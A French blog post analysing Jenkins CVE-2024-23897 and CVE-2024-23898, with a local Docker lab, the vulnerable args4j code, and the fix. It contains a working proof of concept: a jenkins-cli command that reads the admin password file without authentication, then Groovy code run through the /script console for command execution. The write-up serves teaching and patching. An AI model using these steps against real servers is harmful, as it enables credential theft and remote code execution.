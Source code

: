 # Compromettre Jenkins via une simple lecture de fichiers : CVE-2024-23897


# 💣 D'une petite erreur verbeuse à une compromission complète

## A l'origine

Le **25 janvier 2024**, des chercheurs de chez Sonar publient 2 vulnérabilités concernant le leader des logiciels d'intégration et de déploiement continus open-source (CI/CD) : **Jenkins**.

Jenkins joue un rôle central dans **l'automatisation des processus** de développement logiciel pour une grande partie de l'industrie, avec une part de marché d'environ **44% en 2023**. L'impact potentiel de ces vulnérabilités est donc **considérable**.

La faille la plus préoccupante, identifiée sous le nom de **CVE-2024-23897**, permet à des attaquants non authentifiés de lire des données limitées de fichiers arbitraires et à des attaquants autorisés "en lecture seule" d'accéder à l'intégralité d'un fichier sur le serveur Jenkins.

Deux vulnérabilités sont expliquées :

- La vulnérabilité **CVE-2024-23897** :
    - Un score CVSS de **9.8/10** (assez préoccupant) 😮
    - Un attaquant anonyme est en mesure de lire une partie limitée de fichiers locaux.
- La vulnérabilité **CVE-2024-23898** :
    - Un score CVSS de 8.8/10
    - Permet à un attaquant d'exécuter des commandes CLI arbitraires en incitant une victime à cliquer sur un lien malveillant (CSRF).

## En bref

La vulnérabilité la plus problématique est la première : **CVE-2024-23897**

- Les attaquants non authentifiés peuvent lire **les premières lignes de fichiers locaux** présents sur le serveur.
- Les attaquants authentifiés en lecture seule peuvent accéder à l'intégralité des fichiers.
- Il est possible de transformer cette vulnérabilité en RCE de plusieurs manières :
    - En lisant contenant le mot de passe par défaut
    - En elevant ses privilèges en tant qu'admin
    - En lisant une clef SSH
    - En récupérant des secrets sur la machine
    - Etc...

Jenkins donne d'autres moyens pour obtenir une execution de commande directement sur son blog : https://www.jenkins.io/security/advisory/2024-01-24/

## Exploitation

Pour exploiter la première vulnérabilité, le PoC est assez facile. 

### Docker vulnérable

Il est possible de tester avec des versions vulnérables via `Docker`.

```bash
docker pull jenkins/jenkins:2.440-jdk17
docker run  -p 8080:8080 jenkins/jenkins:2.440-jdk17
```

### Environnement

Il faut commencer par récupérer l'utilitaire de Jenkins `jenkins-cli.jar` en ligne de commande.

```sh
wget http://localhost:8080/jnlpJars/jenkins-cli.jar
```

![Installation des outils](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-2.png)

### Code vulnérable

Le code ci-dessous détaille le code vulnérable.

La fonction vérifie si l'argument commence par le caractère `@`, et si c'est le cas, lit le fichier dans le chemin après le `@` et créée un nouvel argument pour chaque ligne.


```java
private String[] expandAtFiles(String args[]) throws CmdLineException {
    List<String> result = new ArrayList<String>();
    for (String arg : args) {
        if (arg.startsWith("@")) {
            File file = new File(arg.substring(1));
            if (!file.exists())
                throw new CmdLineException(this,Messages.NO_SUCH_FILE,file.getPath());
            try {
                result.addAll(readAllLines(file));
            } catch (IOException ex) {
                throw new CmdLineException(this, "Failed to parse "+file,ex);
            }
        } else {
            result.add(arg);
        }
    }
    return result.toArray(new String[result.size()]);
}
```

Cela signifie que si un attaquant peut contrôler un argument, il peut l'étendre à un certain nombre d'arguments à partir d'un fichier arbitraire sur l'instance Jenkins.

De ce fait, l'exploitation de la fonction `expandAtFiles()` de `arg4j` affichant une erreur verbeuse lors de la tentative de lecture du fichier est possible.

### Lecture arbitraire...

La commande ci-dessous permet à un utilisateur **non authentifié** de récupérer la première ligne du fichier `/var/jenkins_home/secrets/initialAdminPassword`

```sh
java -jar jenkins-cli.jar -noCertificateCheck -s http://127.0.0.1:8080 who-am-i "@/var/jenkins_home/secrets/initialAdminPassword"
```

![Lecture de fichiers arbitraires](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-3.png)

### ...vers RCE

Il est donc possible de récupérer le mot de passe par défaut de l'administrateur si ce dernier n'a pas été changé.

![Capture du mot de passe administrateur](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-4.png)


Il est ensuite possible de se connecter sur `/script` pour exécuter nos commandes. 

![Execution de commande](/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/jenkins-1.png)

Le code ci-dessous permet d'exécuter la commande `/bin/id`.

```groovy
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

Pour terminer, une démonstration est disponible juste en dessous !

## Actions recommandées

L'équipe de sécurité de Jenkins a corrigé la CVE-2024-23897 en ajoutant une configuration sécurisée désactivant la fonctionnalité `expandAtFiles`.

La ligne suivante est retirée :

```java
    return new CmdLineParser(this);
```

Et remplacé par les lignes suivantes :

```java
public static boolean ALLOW_AT_SYNTAX = SystemProperties.getBoolean(CLICommand.class.getName() + ".allowAtSyntax");
    // [...]
    ParserProperties properties = ParserProperties.defaults().withAtSyntax(ALLOW_AT_SYNTAX);
    return new CmdLineParser(this, properties);
```

La deuxième vulnérabilité `CVE-2024-23898`, conséquente direct de la première, a été corrigé en ajoutant une vérification de l'origine sur le mécanisme de WebSocket.

Patchez rapidement

## Démonstration

Démonstration avec les éléments détaillés ci-dessus.

<video src="/images/compromettre-jenkins-lecture-fichiers-CVE-2024-23897/exploit.mp4" controls autoplay loop title="Exploitation de Jenkins" style="width:100%"></video>

## Sources

- https://www.jenkins.io/security/advisory/2024-01-24/#binary-files-note
- https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/
